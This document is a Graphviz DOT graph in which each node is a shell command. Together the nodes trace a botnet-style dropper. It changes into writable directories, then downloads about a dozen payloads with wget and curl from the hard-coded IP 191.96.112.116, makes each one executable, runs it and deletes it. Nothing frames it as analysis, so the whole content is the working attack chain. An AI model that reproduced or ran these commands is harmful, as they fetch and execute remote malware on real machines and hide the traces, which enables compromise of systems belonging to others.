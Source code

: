 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://191.96.112.116/n "];
10 -> 12 [label=";,"];
12 [label="curl -O http://191.96.112.116/n "];
12 -> 14 [label=";,"];
14 [label="chmod +x n "];
14 -> 16 [label=";,"];
16 [label="./n "];
16 -> 18 [label=";,"];
18 [label="rm -rf n "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://191.96.112.116/s "];
30 -> 32 [label=";,"];
32 [label="curl -O http://191.96.112.116/s "];
32 -> 34 [label=";,"];
34 [label="chmod +x s "];
34 -> 36 [label=";,"];
36 [label="./s "];
36 -> 38 [label=";,"];
38 [label="rm -rf s "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://191.96.112.116/o "];
50 -> 52 [label=";,"];
52 [label="curl -O http://191.96.112.116/o "];
52 -> 54 [label=";,"];
54 [label="chmod +x o "];
54 -> 56 [label=";,"];
56 [label="./o "];
56 -> 58 [label=";,"];
58 [label="rm -rf o "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://191.96.112.116/b "];
70 -> 72 [label=";,"];
72 [label="curl -O http://191.96.112.116/b "];
72 -> 74 [label=";,"];
74 [label="chmod +x b "];
74 -> 76 [label=";,"];
76 [label="./b "];
76 -> 78 [label=";,"];
78 [label="rm -rf b "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://191.96.112.116/t "];
90 -> 92 [label=";,"];
92 [label="curl -O http://191.96.112.116/t "];
92 -> 94 [label=";,"];
94 [label="chmod +x t "];
94 -> 96 [label=";,"];
96 [label="./t "];
96 -> 98 [label=";,"];
98 [label="rm -rf t "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://191.96.112.116/w "];
110 -> 112 [label=";,"];
112 [label="curl -O http://191.96.112.116/w "];
112 -> 114 [label=";,"];
114 [label="chmod +x w "];
114 -> 116 [label=";,"];
116 [label="./w "];
116 -> 118 [label=";,"];
118 [label="rm -rf w "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://191.96.112.116/c "];
130 -> 132 [label=";,"];
132 [label="curl -O http://191.96.112.116/c "];
132 -> 134 [label=";,"];
134 [label="chmod +x c "];
134 -> 136 [label=";,"];
136 [label="./c "];
136 -> 138 [label=";,"];
138 [label="rm -rf c "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://191.96.112.116/f "];
150 -> 152 [label=";,"];
152 [label="curl -O http://191.96.112.116/f "];
152 -> 154 [label=";,"];
154 [label="chmod +x f "];
154 -> 156 [label=";,"];
156 [label="./f "];
156 -> 158 [label=";,"];
158 [label="rm -rf f "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://191.96.112.116/p "];
170 -> 172 [label=";,"];
172 [label="curl -O http://191.96.112.116/p "];
172 -> 174 [label=";,"];
174 [label="chmod +x p "];
174 -> 176 [label=";,"];
176 [label="./p "];
176 -> 178 [label=";,"];
178 [label="rm -rf p "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://191.96.112.116/k "];
190 -> 192 [label=";,"];
192 [label="curl -O http://191.96.112.116/k "];
192 -> 194 [label=";,"];
194 [label="chmod +x k "];
194 -> 196 [label=";,"];
196 [label="./k "];
196 -> 198 [label=";,"];
198 [label="rm -rf k "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://191.96.112.116/h "];
210 -> 212 [label=";,"];
212 [label="curl -O http://191.96.112.116/h "];
212 -> 214 [label=";,"];
214 [label="chmod +x h "];
214 -> 216 [label=";,"];
216 [label="./h "];
216 -> 218 [label=";,"];
218 [label="rm -rf h "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://191.96.112.116/a "];
230 -> 232 [label=";,"];
232 [label="curl -O http://191.96.112.116/a "];
232 -> 234 [label=";,"];
234 [label="chmod +x a "];
234 -> 236 [label=";,"];
236 [label="./a "];
236 -> 238 [label=";,"];
238 [label="rm -rf a "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://191.96.112.116/z "];
250 -> 252 [label=";,"];
252 [label="curl -O http://191.96.112.116/z "];
252 -> 254 [label=";,"];
254 [label="chmod +x z "];
254 -> 256 [label=";,"];
256 [label="./z "];
256 -> 257 [label=";,"];
}
